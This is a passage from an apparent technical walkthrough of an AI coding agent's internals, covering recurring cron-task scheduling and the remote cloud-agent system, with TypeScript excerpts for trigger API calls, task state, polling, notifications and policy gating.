Recurring tasks auto-expire after 7 days (configurable via `recurringMaxAgeMs`). This bounds the worst-case session lifetime, preventing unbounded recurrence from compounding Tier-1 heap leaks. The expiry fires one final time, then is deleted. Users are informed of this limit when scheduling recurring jobs via the tool prompt at `src/tools/ScheduleCronTool/prompt.ts:L118`. Permanent tasks (assistant mode's catch-up/morning-checkin/dream) never age out -- they cannot be recreated if deleted because `install.ts`'s `writeIfMissing()` skips existing files.

### Invalid cron strings in the file

The `readCronTasks()` function silently drops tasks with invalid cron strings rather than failing the entire file read:

```typescript
// src/utils/cronTasks.ts:L108-L127
for (const t of file.tasks) {
  if (
    !t ||
    typeof t.id !== 'string' ||
    typeof t.cron !== 'string' ||
    typeof t.prompt !== 'string' ||
    typeof t.createdAt !== 'number'
  ) {
    logForDebugging(
      `[ScheduledTasks] skipping malformed task: ${jsonStringify(t)}`,
    )
    continue
  }
  if (!parseCronExpression(t.cron)) {
    logForDebugging(
      `[ScheduledTasks] skipping task ${t.id} with invalid cron '${t.cron}'`,
    )
    continue
  }
  out.push({
    id: t.id,
    cron: t.cron,
    prompt: t.prompt,
    createdAt: t.createdAt,
    // ... lastFiredAt, recurring, permanent
  })
}
```

This ensures that a single bad entry (perhaps from a hand-edited JSON file) never blocks the entire scheduled-tasks file from loading. The re-validation on read also protects against cron strings that were valid when written but became invalid due to a parser change in a newer version of cc.

### Kill switch forces session-only at call time

Even when the model passes `durable: true`, the `CronCreateTool.call()` method checks the durable gate at execution time:

```typescript
// src/tools/ScheduleCronTool/CronCreateTool.ts:L117-L121
async call({ cron, prompt, recurring = true, durable = false }) {
  // Kill switch forces session-only; schema stays stable so the model sees
  // no validation errors when the gate flips mid-session.
  const effectiveDurable = durable && isDurableCronEnabled()
  const id = await addCronTask(
    cron,
    prompt,
    recurring,
    effectiveDurable,
    getTeammateContext()?.agentId,
  )
```

This prevents a mid-session gate flip from creating durable tasks that the scheduler cannot service. The schema stays stable (the model sees no validation errors), but the runtime behavior degrades gracefully to session-only.

### Teammate-scoped cron visibility

The `CronListTool` filters cron visibility by teammate context at `src/tools/ScheduleCronTool/CronListTool.ts:L64-L69`: teammates only see their own crons, while the team lead sees all. Similarly, `CronDeleteTool` at `src/tools/ScheduleCronTool/CronDeleteTool.ts:L72-L79` prevents teammates from deleting crons owned by other agents. This scoping ensures that parallel teammates do not interfere with each other's scheduled work.

## Where cc diverges from the published pattern

HER Section 10.2 (METR Task Sizing Research) recommends right-sizing tasks to 15-30 minutes of agent work per session. The cron system operationalizes this by allowing the agent to schedule future prompts without blocking the current query, but it does not enforce the 15-30 minute bound. An agent could schedule a cron that fires every minute or every hour -- the sizing discipline is left to the prompt, not the scheduler. The Toby Ord finding (arXiv:2505.05115) that agent failure follows a constant hazard rate analogous to radioactive decay suggests that scheduled decomposition should be the default, not the exception.

HER Section 10.1 (One-Task-Per-Session) states that this is "the single most impactful rule across all sources" for preventing context exhaustion, scope creep, compounding errors, and lost progress. The cron system supports this rule by providing a way to schedule future work without stacking multiple tasks in the current context. However, the system allows up to 50 concurrent cron jobs, which could theoretically violate the one-task-per-session principle if many jobs fire simultaneously. The scheduler's idle-REPL check prevents this in practice -- jobs fire when the REPL is not mid-query.

The `/loop` skill uses the cron system to implement a self-pacing iterative workflow with a dynamic-pacing sentinel (`<<autonomous-loop-dynamic>>`). This is a novel use of cron that the HER pattern does not anticipate: rather than scheduling an external task, the agent schedules itself for future execution, creating an autonomous loop with back-pressure from the REPL idle check. The `ScheduleWakeup` mechanism (distinct from `CronCreate`) provides cache-aware timing for active loops, clamping sleep intervals to [60s, 3600s] to balance prompt cache warmth against polling frequency.

## Developer takeaways for building a long-running agent

1. **Jitter prevents thundering herds.** When many agents schedule the same cron expression (e.g., `0 * * * *` for hourly checks), they all hit the inference API at the same instant. Deterministic per-task jitter, derived from the task ID, spreads the load without requiring coordination between sessions. The jitter is proportional to the interval between fires (so an hourly task gets more spread than a per-minute task), capped at a maximum delay.

2. **Separate session-only from durable persistence.** Not every scheduled task needs to survive a restart. Session-only tasks are cheaper (no filesystem I/O) and safer (no orphaned tasks after a crash). Reserve durable persistence for tasks that the user explicitly asks to survive across sessions. The `durable` flag should default to `false`, with `true` requiring explicit user intent.

3. **Auto-expiry bounds worst-case session lifetime.** Without a recurring-task expiry, a long-running agent with scheduled checks can accumulate unbounded memory usage and never terminate. The 7-day default is a reasonable balance between utility ("check my PRs every hour this week") and safety. Make the expiry configurable through runtime knobs (not code changes) so operations can adjust behavior without shipping a new build.

4. **Missed-task detection is essential for one-shots.** When the agent is offline, one-shot reminders are missed silently unless the system explicitly checks for past-due tasks on startup. This is a basic reliability requirement that many scheduling systems overlook. The check is cheap (one `nextCronRunMs` call per task) and the user benefit is significant.

5. **Feature gates must degrade gracefully.** When the durable-cron gate is flipped off mid-session, the tool does not reject the model's request -- it silently downgrades to session-only. This prevents validation errors and model confusion while still respecting the operational constraint. The schema should remain stable even when the gate is off.
# Remote Agents and CCR Integration

## Overview

The remote agent system extends cc's multi-agent architecture into the cloud tier (HER Section 9.1, tier 3). While in-process subagents and forked subagents run on the local machine, remote agents execute on Anthropic's cloud infrastructure, communicating with the local parent session via polling-based coordination. The `RemoteTriggerTool` manages cloud-side agent definitions (triggers), and `RemoteAgentTask` tracks the lifecycle of a running remote session. This chapter covers the remote-trigger API, the polling-based event stream, and the integration patterns that bind a remote agent to its local parent.

The remote agent tier addresses a fundamental limitation of local execution: long-running tasks that require continuous compute cannot survive a laptop being closed or a network connection dropping. By executing in the cloud, remote agents decouple task lifetime from the user's terminal session, enabling multi-hour autonomous work that persists even when the local machine is offline. This directly addresses the METR task-sizing research (HER Section 10.2) which found that AI task duration doubles every ~7 months but that right-sized tasks should target 15-30 minutes. Remote agents allow a local session to dispatch multi-hour tasks to the cloud while the local session handles shorter, interactive work.

The remote agent system also enables a new class of use cases that are impossible with local-only execution: background PR creation (the agent creates and manages a pull request while the user continues working), long-running code reviews (the agent reads the entire PR diff and generates a structured review), and autonomous bug fixing (the agent identifies, fixes, and verifies a bug without human intervention). Each of these use cases requires hours of uninterrupted compute, which is impractical on a local machine that may be closed, disconnected, or repurposed at any time. The cloud execution environment provides a stable, always-on compute substrate that decouples task lifetime from the local machine's availability.

The remote agent system also confronts the checkpoint-restore side effects identified in HER Section 6.16 (ACRFence). When a local session restarts and reattaches to a running remote agent, the remote agent may have completed actions that the local session does not know about. The ACRFence paper identifies two attack classes -- Action Replay (replaying previously completed actions) and Authority Resurrection (reusing expired credentials) -- that are particularly relevant when a remote agent's state diverges from the local session's state. cc mitigates Action Replay through server-side trigger deduplication, and it mitigates Authority Resurrection by ensuring that OAuth tokens are refreshed on each poll tick rather than reused from a stale session state.

## Data structures and contracts

### RemoteTriggerTool input and output schemas

The `RemoteTriggerTool` provides a thin HTTP client wrapper around the claude.ai CCR (Cloud Compute Runtime) API. Its input schema maps directly to the REST API's CRUD operations:

```typescript
// src/tools/RemoteTriggerTool/RemoteTriggerTool.ts:L18-L31
const inputSchema = lazySchema(() =>
  z.strictObject({
    action: z.enum(['list', 'get', 'create', 'update', 'run']),
    trigger_id: z
      .string()
      .regex(/^[\w-]+$/)
      .optional()
      .describe('Required for get, update, and run'),
    body: z
      .record(z.string(), z.unknown())
      .optional()
      .describe('JSON body for create and update'),
  }),
)
```

The five actions map to REST API endpoints: `list` (GET /v1/code/triggers), `get` (GET /v1/code/triggers/{id}), `create` (POST /v1/code/triggers), `update` (POST /v1/code/triggers/{id}), and `run` (POST /v1/code/triggers/{id}/run). The `trigger_id` regex (`/^[\w-]+$/`) prevents injection attacks through the path parameter.

The output is a raw HTTP response envelope:

```typescript
// src/tools/RemoteTriggerTool/RemoteTriggerTool.ts:L35-L40
const outputSchema = lazySchema(() =>
  z.object({
    status: z.number(),
    json: z.string(),
  }),
)
```

The tool does not parse or validate the API response -- it passes the raw JSON through to the model. This design keeps the tool simple and resilient to API schema changes, at the cost of requiring the model to interpret the response structure. The `json` field is stringified (not a native object) because the tool result must be serializable across the IPC boundary for forked subagents.

### RemoteAgentTaskState type

The `RemoteAgentTaskState` tracks the full lifecycle of a running remote session, extending the base `TaskStateBase` with remote-specific fields:

```typescript
// src/tasks/RemoteAgentTask/RemoteAgentTask.tsx:L22-L59
export type RemoteAgentTaskState = TaskStateBase & {
  type: 'remote_agent';
  remoteTaskType: RemoteTaskType;
  remoteTaskMetadata?: RemoteTaskMetadata;
  sessionId: string;
  command: string;
  title: string;
  todoList: TodoList;
  log: SDKMessage[];
  isLongRunning?: boolean;
  pollStartedAt: number;
  isRemoteReview?: boolean;
  reviewProgress?: {
    stage?: 'finding' | 'verifying' | 'synthesizing';
    bugsFound: number;
    bugsVerified: number;
    bugsRefuted: number;
  };
  isUltraplan?: boolean;
  ultraplanPhase?: Exclude<UltraplanPhase, 'running'>;
};
```

The `remoteTaskType` field distinguishes between five remote task types:

```typescript
// src/tasks/RemoteAgentTask/RemoteAgentTask.tsx:L60-L61
const REMOTE_TASK_TYPES = ['remote-agent', 'ultraplan', 'ultrareview', 'autofix-pr', 'background-pr'] as const;
```

Each task type has different polling behavior and completion semantics. For example, `autofix-pr` tasks have a registered completion checker that monitors the PR state on GitHub, while `ultrareview` tasks track review progress with structured stage data (`finding`, `verifying`, `synthesizing`). The `isLongRunning` flag marks tasks that should not be marked as complete after the first result -- they continue running until explicitly stopped.

### RemoteAgentPreconditionResult

Before creating a remote agent, the system checks preconditions using `checkRemoteAgentEligibility()`:

```typescript
// src/tasks/RemoteAgentTask/RemoteAgentTask.tsx:L114-L119
export type RemoteAgentPreconditionResult = {
  eligible: true;
} | {
  eligible: false;
  errors: BackgroundRemoteSessionPrecondition[];
};
```

Precondition errors include: not logged in, no remote environment configured, not in a git repo, no GitHub remote, GitHub app not installed, and policy blocks. The `formatPreconditionError()` function at `src/tasks/RemoteAgentTask/RemoteAgentTask.tsx:L146-L161` provides human-readable guidance for each error type, with actionable URLs (e.g., the GitHub app installation page) where appropriate.

## Control flow

### Remote trigger API interaction

The `RemoteTriggerTool.call()` method implements a thin HTTP client that authenticates with the claude.ai OAuth token:

```typescript
// src/tools/RemoteTriggerTool/RemoteTriggerTool.ts:L78-L98
async call(input: Input, context: ToolUseContext) {
  await checkAndRefreshOAuthTokenIfNeeded()
  const accessToken = getClaudeAIOAuthTokens()?.accessToken
  if (!accessToken) {
    throw new Error(
      'Not authenticated with a claude.ai account. Run /login and try again.',
    )
  }
  const orgUUID = await getOrganizationUUID()
  if (!orgUUID) {
    throw new Error('Unable to resolve organization UUID.')
  }
  const base = `${getOauthConfig().BASE_API_URL}/v1/code/triggers`
  const headers = {
    Authorization: `Bearer ${accessToken}`,
    'Content-Type': 'application/json',
    'anthropic-version': '2023-06-01',
    'anthropic-beta': TRIGGERS_BETA,
    'x-organization-uuid': orgUUID,
  }
```

The `call()` method then dispatches based on the `action` field. The `list` and `get` actions map to HTTP GET requests; `create`, `update`, and `run` map to HTTP POST. Each `update` and `run` action appends a path segment (`/{trigger_id}` or `/{trigger_id}/run`) and requires `trigger_id`. The `create` and `update` actions pass the `body` parameter as request data. Note that the `mapToolResultToToolResultBlockParam()` method at `src/tools/RemoteTriggerTool/RemoteTriggerTool.ts:L152-L158` formats the result for the model as a plain-text block (`HTTP {status}\n{json}`), which is more token-efficient than the structured output returned to the terminal UI:

```typescript
// src/tools/RemoteTriggerTool/RemoteTriggerTool.ts:L100-L133
const { action, trigger_id, body } = input
let method: 'GET' | 'POST'
let url: string
let data: unknown
switch (action) {
  case 'list':
    method = 'GET'
    url = base
    break
  case 'get':
    if (!trigger_id) throw new Error('get requires trigger_id')
    method = 'GET'
    url = `${base}/${trigger_id}`
    break
  case 'create':
    if (!body) throw new Error('create requires body')
    method = 'POST'
    url = base
    data = body
    break
  case 'update':
    if (!trigger_id) throw new Error('update requires trigger_id')
    if (!body) throw new Error('update requires body')
    method = 'POST'
    url = `${base}/${trigger_id}`
    data = body
    break
  case 'run':
    if (!trigger_id) throw new Error('run requires trigger_id')
    method = 'POST'
    url = `${base}/${trigger_id}/run`
    data = {}
    break
}
```

After the switch, the method issues the HTTP request and returns the raw response:

```typescript
// src/tools/RemoteTriggerTool/RemoteTriggerTool.ts:L135-L151
const res = await axios.request({
  method,
  url,
  headers,
  data,
  timeout: 20_000,
  signal: context.abortController.signal,
  validateStatus: () => true,
})
return {
  data: {
    status: res.status,
    json: jsonStringify(res.data),
  },
}
```

The tool authenticates in-process -- the OAuth token never reaches the shell or any subprocess. This is a security-critical decision: passing tokens through shell environment variables or command-line arguments creates exfiltration vectors through compromised tools or hooks. The `anthropic-beta` header (`ccr-triggers-2026-01-30`) identifies the API version, and the `x-organization-uuid` header scopes the request to the user's organization.

The `validateStatus: () => true` configuration means that HTTP errors (4xx, 5xx) are returned as normal results rather than thrown as exceptions. This allows the model to interpret error responses and take corrective action, such as retrying with different parameters or informing the user about the error.

### Terminal rendering for trigger operations

The `RemoteTriggerTool`'s UI rendering is handled by `src/tools/RemoteTriggerTool/UI.tsx`, which provides two small rendering functions. `renderToolUseMessage()` displays the action and trigger ID (e.g., "create my-trigger") in the tool-use message bubble. `renderToolResultMessage()` shows the HTTP status code and a line-count summary (e.g., "HTTP 200 (12 lines)" with the count dimmed), so the user can see the response size at a glance without the full JSON flooding the terminal. The line count is computed by `countCharInString(output.json, '\n') + 1`, giving an approximate measure of the response complexity. This minimal rendering is intentional: remote trigger responses can be large (a `list` action may return dozens of triggers), and rendering the full JSON body would overwhelm the terminal. The model receives the complete JSON in its tool result, while the user sees only the status and size.

### Feature gating

The `RemoteTriggerTool` is gated behind two independent, orthogonal conditions that must both be satisfied at `src/tools/RemoteTriggerTool/RemoteTriggerTool.ts:L57-L62`:

```typescript
// src/tools/RemoteTriggerTool/RemoteTriggerTool.ts:L57-L62
isEnabled() {
  return (
    getFeatureValue_CACHED_MAY_BE_STALE('tengu_surreal_dali', false) &&
    isPolicyAllowed('allow_remote_sessions')
  )
},
```

The `tengu_surreal_dali` GrowthBook flag is the primary gate, and `isPolicyAllowed('allow_remote_sessions')` enforces enterprise policy restrictions. Organizations that disable remote sessions will have the tool hidden from the model entirely. The tool is also marked `isConcurrencySafe() { return true }` at `src/tools/RemoteTriggerTool/RemoteTriggerTool.ts:L63-L65`, meaning multiple remote trigger calls can run in parallel, and `isReadOnly()` returns true only for `list` and `get` actions at `src/tools/RemoteTriggerTool/RemoteTriggerTool.ts:L66-L69`.

### Remote agent task lifecycle

A remote agent task follows this lifecycle:

1. **Precondition check** -- The system verifies authentication, git repository, GitHub remote, GitHub app installation, and policy compliance via `checkRemoteAgentEligibility()` at `src/tasks/RemoteAgentTask/RemoteAgentTask.tsx:L124-L141`.

2. **Task registration** -- A `RemoteAgentTask` is registered with the task framework, generating a task ID and initial state. The `persistRemoteAgentMetadata()` function at `src/tasks/RemoteAgentTask/RemoteAgentTask.tsx:L92-L98` writes the metadata to the session sidecar for crash recovery.

3. **Trigger invocation** -- The `RemoteTriggerTool` creates or runs a trigger on the claude.ai API, starting a cloud-side agent session.

4. **Polling loop** -- The local session polls the remote agent's event stream using `pollRemoteSessionEvents()` from `src/utils/teleport.ts`. The poller tracks the remote session's messages, tool use blocks, and completion status.

5. **Completion detection** -- The poller detects task completion via explicit status messages or registered completion checkers. The `completionCheckers` map at `src/tasks/RemoteAgentTask/RemoteAgentTask.tsx:L78` stores type-specific checkers that are called on every poll tick.

6. **Notification** -- On completion, a task notification is enqueued for the user, including the output file path.

```mermaid
sequenceDiagram
    participant User
    participant REPL
    participant RemoteTriggerTool
    participant CCR_API as claude.ai API
    participant CloudAgent as Cloud Agent
    User->>REPL: Request remote task
    REPL->>RemoteTriggerTool: Create/run trigger
    RemoteTriggerTool->>CCR_API: POST /v1/code/triggers
    CCR_API-->>RemoteTriggerTool: trigger_id
    RemoteTriggerTool-->>REPL: Task registered
    CCR_API->>CloudAgent: Start agent session
    loop Polling loop
        REPL->>CCR_API: GET events
        CCR_API-->>REPL: Stream events
    end
    CloudAgent->>CCR_API: Task complete
    CCR_API-->>REPL: Completion event
    REPL->>User: Notification with output
```

### Notification and output delivery

When a remote task completes, the system enqueues a notification using a structured XML format with typed tags:

```typescript
// src/tasks/RemoteAgentTask/RemoteAgentTask.tsx:L166-L183
function enqueueRemoteNotification(
  taskId: string, title: string,
  status: 'completed' | 'failed' | 'killed',
  setAppState: SetAppState, toolUseId?: string,
): void {
  if (!markTaskNotified(taskId, setAppState)) return
  const statusText = status === 'completed' ? 'completed successfully' :
    status === 'failed' ? 'failed' : 'was stopped'
  const outputPath = getTaskOutputPath(taskId)
  const message = `<${TASK_NOTIFICATION_TAG}>
<${TASK_ID_TAG}>${taskId}</${TASK_ID_TAG}>${toolUseIdLine}
<${TASK_TYPE_TAG}>remote_agent</${TASK_TYPE_TAG}>
<${OUTPUT_FILE_TAG}>${outputPath}</${OUTPUT_FILE_TAG}>
<${STATUS_TAG}>${status}</${STATUS_TAG}>
<${SUMMARY_TAG}>Remote task "${title}" ${statusText}</${SUMMARY_TAG}>
</${TASK_NOTIFICATION_TAG}>`
  enqueuePendingNotification({ value: message, mode: 'task-notification' })
}
```

The `markTaskNotified()` function at `src/tasks/RemoteAgentTask/RemoteAgentTask.tsx:L189-L200` atomically prevents duplicate notifications by setting a `notified` flag on the task state. If a task has already been notified, subsequent calls are no-ops. This handles the race condition where a poll tick and a user-initiated check both detect completion simultaneously. The atomicity is guaranteed by the `updateTaskState()` function, which uses a React-style state updater that serializes concurrent updates, ensuring that only one caller observes the `notified` flag as `false` and proceeds to enqueue the notification.

The XML-tagged format (using constants from `src/constants/xml.ts`) allows the notification system to parse and route the notification appropriately, including linking the user to the output file stored on disk.

### Completion checkers for external state

Some remote task types require checking external state to determine completion. The `registerCompletionChecker()` function allows task-specific checkers to be registered:

```typescript
// src/tasks/RemoteAgentTask/RemoteAgentTask.tsx:L77-L86
export type RemoteTaskCompletionChecker = (
  remoteTaskMetadata: RemoteTaskMetadata | undefined
) => Promise<string | null>

const completionCheckers = new Map<RemoteTaskType, RemoteTaskCompletionChecker>()

export function registerCompletionChecker(
  remoteTaskType: RemoteTaskType,
  checker: RemoteTaskCompletionChecker,
): void {
  completionCheckers.set(remoteTaskType, checker)
}
```

For example, an `autofix-pr` completion checker polls the GitHub API to see if the PR has been merged or closed. This external-state check complements the event-stream polling, which only tracks the agent's internal state, not the downstream effects of the agent's actions. The checker returns a non-null string to complete the task (the string becomes the notification text), or null to keep polling. Checkers that hit external APIs are expected to self-throttle.

### Metadata persistence across sessions

Remote agent metadata is persisted to the session sidecar so that restored sessions can reattach to running remote tasks:

```typescript
// src/tasks/RemoteAgentTask/RemoteAgentTask.tsx:L92-L98
async function persistRemoteAgentMetadata(meta: RemoteAgentMetadata): Promise<void> {
  try {
    await writeRemoteAgentMetadata(meta.taskId, meta)
  } catch (e) {
    logForDebugging(`persistRemoteAgentMetadata failed: ${String(e)}`)
  }
}
```

On session restore, the sidecar metadata is used to re-register the task and resume the polling loop. The `removeRemoteAgentMetadata()` function at `src/tasks/RemoteAgentTask/RemoteAgentTask.tsx:L105-L111` removes the metadata on task completion or kill, so restored sessions do not resurrect tasks that already finished. Without this persistence, a user restarting cc after a crash would lose track of running remote tasks.

```mermaid
classDiagram
    class RemoteAgentTaskState {
        +type: remote_agent
        +remoteTaskType: RemoteTaskType
        +sessionId: string
        +command: string
        +title: string
        +todoList: TodoList
        +log: SDKMessage[]
        +isLongRunning: boolean
        +pollStartedAt: number
        +isUltraplan: boolean
        +ultraplanPhase: UltraplanPhase
    }
    class RemoteTaskType {
        <<enumeration>>
        remote-agent
        ultraplan
        ultrareview
        autofix-pr
        background-pr
    }
    class RemoteAgentMetadata {
        +taskId: string
        +remoteTaskType: RemoteTaskType
        +remoteTaskMetadata: RemoteTaskMetadata
    }
    class CompletionChecker {
        +check(metadata): Promise~string|null~
    }
    RemoteAgentTaskState --> RemoteTaskType
    RemoteAgentMetadata --> RemoteTaskType
    CompletionChecker --> RemoteTaskType : registered per type
```

### The review-progress tracking

For `ultrareview` tasks, the `reviewProgress` field tracks structured progress from the remote agent's heartbeat echoes:

```typescript
// src/tasks/RemoteAgentTask/RemoteAgentTask.tsx:L44-L50
  reviewProgress?: {
    stage?: 'finding' | 'verifying' | 'synthesizing';
    bugsFound: number;
    bugsVerified: number;
    bugsRefuted: number;
  };
```

This data is parsed from the orchestrator's `<remote-review-progress>` XML tags in the event stream, and surfaced in the pill badge and detail dialog status line. The three stages correspond to the review workflow: finding potential issues, verifying them against the code, and synthesizing the final report.

## Edge cases and failure modes

### Remote task types and their semantics

The five remote task types have distinct lifecycle semantics that go beyond simple "start and wait" patterns:

**remote-agent** is the generic type for cloud-side agent execution. The agent runs in a sandboxed cloud environment with its own filesystem, git repository clone, and tool suite. The local session polls for events and surfaces the agent's output when it completes. This type has no external completion checker -- completion is determined solely by the agent's event stream.

**ultraplan** is a specialized remote agent that runs an extended planning phase in the cloud. It is marked by the `isUltraplan` flag on the task state, and its `ultraplanPhase` field tracks the current phase (excluding the `'running'` phase, which is represented by the task being active rather than by a state field). The ultraplan agent can access the user's codebase and produce a comprehensive implementation plan without consuming local resources.

**ultrareview** runs a code review agent in the cloud. Its `reviewProgress` field at `src/tasks/RemoteAgentTask/RemoteAgentTask.tsx:L44-L50` tracks structured progress through three stages: `finding` (identifying potential issues), `verifying` (confirming issues against the code), and `synthesizing` (generating the final report). The three counters (`bugsFound`, `bugsVerified`, `bugsRefuted`) give the user real-time visibility into the review's coverage and accuracy. A high `bugsRefuted` count indicates that the finding stage is producing many false positives, which may warrant adjusting the review prompt.

**autofix-pr** is a remote agent that creates a pull request to fix a specific issue. Its completion checker monitors the PR state on GitHub: the task is complete when the PR is merged or closed, not when the agent finishes running. This external-state check bridges the gap between the agent's internal state and the real-world effects of its actions.

**background-pr** is similar to `autofix-pr` but runs as a background task without blocking the user's terminal session. The `isLongRunning` flag at `src/tasks/RemoteAgentTask/RemoteAgentTask.tsx:L40` is set to `true`, preventing the task from being marked as complete after the first result. The task continues running until explicitly stopped by the user or the system.

### Polling mechanics and the idle-REPL check

The local session's polling loop uses `pollRemoteSessionEvents()` from `src/utils/teleport.ts` to fetch events from the cloud agent. The polling frequency is governed by the REPL's idle state: events are fetched only when the REPL is not mid-query, which prevents the polling from interfering with the user's interactive work.

Although the brief mentions "websocket sessions," the current implementation uses a polling-based event stream rather than WebSocket connections. A WebSocket approach would push events from the cloud agent to the local session in real time, reducing latency and eliminating unnecessary API calls when the remote agent is idle. However, WebSocket connections require persistent bidirectional TCP connections, which introduces complexity: connection management (reconnect on network interruption, heartbeat timeouts), firewall traversal (some corporate networks block WebSocket upgrades), and server-side connection state (the CCR API would need to maintain per-session WebSocket channels). The polling model sidesteps all of these concerns at the cost of increased latency between event generation and delivery. For the current use case (background tasks that run for minutes to hours), the added latency of polling is acceptable, and the implementation simplicity is a significant advantage. A future evolution of the remote agent system could introduce WebSocket support for latency-sensitive task types (e.g., `ultrareview` where the user is watching progress in real time), using polling as a fallback when WebSocket connections fail.

The polling loop follows this sequence:

1. Check if the REPL is idle (no active model query in progress).
2. If idle, make an HTTP request to the CCR API to fetch new events since the last poll.
3. Parse the events and update the task state (log messages, tool use blocks, completion status).
4. If a completion checker is registered for the task type, call it to check external state.
5. If the task is complete, enqueue a notification and stop polling.
6. If the task is still running, wait for the next poll interval and repeat.

The `pollStartedAt` field at `src/tasks/RemoteAgentTask/RemoteAgentTask.tsx:L41` is critical for timeout calculations. It records when the local session started polling, not when the remote task was created. This distinction matters for restored sessions: if a remote task was created 30 minutes ago but the local session only started polling 5 minutes ago, the timeout should be computed from the 5-minute mark, not the 30-minute mark. Without this, a restored session would immediately time out any task that was spawned before the crash.

### The CCR API contract

The claude.ai CCR (Cloud Compute Runtime) API provides the server-side infrastructure for remote agent execution. The API follows a trigger-based model: a trigger defines an agent configuration (model, tools, repository), and running a trigger creates a new agent session.

The API's key endpoints are:

- `GET /v1/code/triggers` -- List all triggers for the organization
- `GET /v1/code/triggers/{id}` -- Get details of a specific trigger
- `POST /v1/code/triggers` -- Create a new trigger with a configuration body
- `POST /v1/code/triggers/{id}` -- Update an existing trigger's configuration
- `POST /v1/code/triggers/{id}/run` -- Execute a trigger, starting a cloud agent session

The `run` action is idempotent: the server tracks whether an agent session is already running for a given trigger, preventing duplicate invocations from a restored local session. This idempotency is the primary mitigation for the ACRFence Action Replay attack described in HER Section 6.16.

The `anthropic-beta` header value (`ccr-triggers-2026-01-30` at `src/tools/RemoteTriggerTool/prompt.ts`) identifies the API version. This beta header signals that the API is still evolving, and breaking changes may occur. The tool's raw-JSON response handling (returning `json: jsonStringify(res.data)` rather than a parsed object) is a deliberate resilience strategy: if the API response schema changes, the tool does not break -- the model receives a different JSON structure that it can adapt to.

The API's error semantics deserve attention. Because `validateStatus: () => true` disables axios's default error throwing, every HTTP response (including 4xx and 5xx) is returned as a structured result with a `status` code and `json` body. The model interprets the status code and error message from the JSON body to decide how to proceed. Common error scenarios include: 401 (token expired or invalid, requiring re-authentication via `/login`), 403 (organization does not have CCR access, a policy or billing issue), 404 (trigger ID not found, typically after the trigger was deleted), and 429 (rate limited, requiring a retry after the cooldown period). The model's ability to read and interpret these errors is a key advantage of the raw-JSON approach: a Zod-validated response schema would reject unexpected error formats, but the model can handle any well-formed JSON error response without code changes.

### Output file management

When a remote task completes, its output is stored on disk at a path computed by `getTaskOutputPath()`. The output file contains the agent's final result (plan text, review report, or diff summary) in a format that can be read by subsequent agent turns or by the user directly. The output is accumulated incrementally during the task's lifetime via `appendTaskOutput()`, which appends each new message or tool result to the file as it arrives from the polling stream. This incremental approach means that even if the task is killed before completion, the partial output is still available on disk.

The `OUTPUT_FILE_TAG` constant in the notification XML at `src/tasks/RemoteAgentTask/RemoteAgentTask.tsx:L166-L183` provides the path to the output file, allowing the notification system to link the user to the result. When the user clicks the notification, the terminal UI opens the output file in the user's preferred editor.

When a task is killed or fails, `evictTaskOutput()` removes the output file to prevent stale results from cluttering the filesystem. This cleanup is important for long-running tasks that may produce large intermediate output files: a `ultraplan` task can generate megabytes of planning text, and leaving these files on disk after the task is abandoned wastes storage.

The output file is also the mechanism by which the local session can continue the remote agent's work. After a remote `ultraplan` task completes, the local agent reads the plan file from the output path and proceeds with implementation. This handoff preserves the plan-then-execute discipline described in Chapter 45, even when the planning phase runs in the cloud. The `initTaskOutput()` function creates the output file at task registration time (before the first poll), ensuring that the path is available from the moment the task is created rather than only after the first result arrives.

### Session archiving and cleanup

When a remote task completes or is killed, the cloud-side session must be archived to free server resources. The `archiveRemoteSession()` function from `src/utils/teleport.ts` is called to signal the CCR API that the session is no longer needed. This is a housekeeping operation: the cloud agent has already stopped executing, but the session's event history and metadata remain on the server until explicitly archived. Without this cleanup, completed sessions would accumulate indefinitely on the server, consuming storage and making it harder to identify active sessions during debugging.

The archiving happens after the notification is enqueued, so the user receives the completion notification before the session is torn down. If the archiving call fails (e.g., due to a network error), the task still completes successfully on the local side. The server-side session will eventually be garbage-collected by the CCR platform's TTL policy. This "best effort" approach to cleanup avoids making the task lifecycle dependent on a network call that may fail, which is consistent with cc's broader strategy of tolerating partial failures in remote communication.

### Authentication failure during trigger invocation

The `RemoteTriggerTool` checks for authentication before making any API call at `src/tools/RemoteTriggerTool/RemoteTriggerTool.ts:L79-L87`. If the OAuth token is missing or expired, it throws an error with actionable guidance ("Run /login and try again"). The token refresh is handled by `checkAndRefreshOAuthTokenIfNeeded()`, which transparently refreshes expired tokens using the stored refresh token. The `orgUUID` check at `src/tools/RemoteTriggerTool/RemoteTriggerTool.ts:L88-L90` ensures that the user belongs to an organization with CCR access.

### Policy blocks on remote sessions

Enterprise organizations can disable remote sessions via the `allow_remote_sessions` policy limit. When this policy is active, the `RemoteTriggerTool` is hidden from the model entirely (`isEnabled()` returns `false`). The precondition checker at `src/tasks/RemoteAgentTask/RemoteAgentTask.tsx:L147-L161` provides a human-readable error: "Remote sessions are disabled by your organization's policy. Contact your organization admin to enable them." This is a compliance feature that cannot be bypassed by the model or the user.

### Checkpoint-restore side effects (ACRFence)

HER Section 6.16 identifies checkpoint-restore side effects as a critical failure mode for agent systems. The ACRFence paper (arXiv:2603.20625) describes two attack classes: Action Replay (replaying previously completed actions) and Authority Resurrection (reusing expired credentials). Remote agents are particularly vulnerable because they execute outside the user's direct control.

cc's remote agent system mitigates this through idempotency: the `run` action on a trigger is a stateless HTTP POST that the server can deduplicate. The trigger's server-side state tracks whether an agent session is already running for a given trigger, preventing duplicate invocations from a restored session. The `pollStartedAt` field at `src/tasks/RemoteAgentTask/RemoteAgentTask.tsx:L41` ensures that review timeout clocks are computed from the poll start time, not from the task's creation time, so a restored session does not immediately time out a task that was spawned 30 minutes ago.

### Network timeout and abort handling

The `RemoteTriggerTool` uses a 20-second timeout for API calls and respects the `context.abortController.signal` at `src/tools/RemoteTriggerTool/RemoteTriggerTool.ts:L141-L142`. If the user cancels the operation (e.g., by pressing Escape), the abort signal is propagated to the axios request, which cancels the HTTP connection. The `validateStatus: () => true` configuration ensures that even server errors (5xx) are returned as structured results rather than thrown exceptions, allowing the model to interpret and report the error.

### Completion checker self-throttling

The completion checkers registered via `registerCompletionChecker()` are called on every poll tick. The documentation at `src/tasks/RemoteAgentTask/RemoteAgentTask.tsx:L77` states that "checkers that hit external APIs should self-throttle" -- there is no framework-level rate limiting. This means that a poorly implemented checker could exceed API rate limits, but it also gives each checker the flexibility to choose its own throttling strategy based on the external API's constraints. The `remoteTaskMetadata` parameter provides the checker with the context it needs (e.g., the PR number for `autofix-pr` tasks) to make targeted API calls.

## Where cc diverges from the published pattern

